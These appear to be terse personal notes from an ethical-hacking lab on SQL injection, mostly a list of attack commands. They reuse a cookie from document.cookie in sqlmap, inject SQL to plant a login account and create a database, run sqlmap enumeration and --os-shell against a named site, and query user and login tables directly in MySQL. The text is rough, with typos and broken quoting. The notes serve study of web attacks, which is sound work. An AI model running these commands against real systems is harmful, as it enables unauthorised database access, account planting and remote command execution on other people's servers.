 Tools 
1) N staltker web vuln analysis
2) In the vuln web app go to console type document.cookie
	1) get the cookie value
	2) `sqlmap -u "http://IP?id=?" --cookie="X" --dbs`
to insert a username into the database we can user
`blah;insert into login values ('john',apple123');--`

then login using john as user  and apple123 as pass


To create a database 
`blah;create database mydatabase;--`  


sqlmap -r request.txt from burp 

sqlmap -r request.txt --dbs
sqlmap -r request.txt -D database_name --tables
sqlmap -r request.txt -D database_name -T table_name --columns
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell


mysql -U qdpmadmin -h 192.168.1.8 -P passwod 
<br> </br>
show databases;
use database_name
show tables ;
select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
When you have username and Password for the database.


https://www.youtube.com/watch?v=iD84waJKYh0


